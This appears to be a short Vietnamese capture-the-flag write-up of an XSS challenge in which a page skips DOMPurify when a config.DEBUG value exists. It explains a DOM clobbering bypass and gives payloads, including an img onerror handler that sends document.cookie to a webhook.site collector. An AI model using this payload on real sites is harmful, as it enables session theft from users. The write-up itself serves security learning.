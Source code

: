 ![image](https://github.com/user-attachments/assets/123fcf8e-cb02-4a47-8f22-dae4a971b6bf)

```
document.addEventListener("DOMContentLoaded", () => {
	const urlParams = new URLSearchParams(window.location.search);
	const title = atob(urlParams.get("title"));
	const content = atob(urlParams.get("content"));
	document.getElementById("title").innerHTML =
		DOMPurify.sanitize(title);
	if (typeof config !== "undefined" && config.DEBUG) {
		document.getElementById("content").innerHTML = content;
	} else {
		document.getElementById("content").innerHTML =
			DOMPurify.sanitize(content);
	}
});
```
Đoạn code sanitize cả title và content nên ta ko thể xss được ngoại trù trường hợp biến config và config.DEBUG tồn tại. Tuy DOMPurify.sanitize có thể lọc xss nhưng nó lại ko lọc các tag bình thường như <p> , <a> nên ta có thể dùng kỹ thuật DOM clobbering

# payload
title:  
<p id="config"></p><p id="config" name="DEBUG">true</p>  
content:  
<img src=x onerror="fetch('//https://webhook.site/4c6a11ba-e622-45ce-965f-29c5ca311c76?' + document.cookie")>

<img src="" onerror=alert(1)>
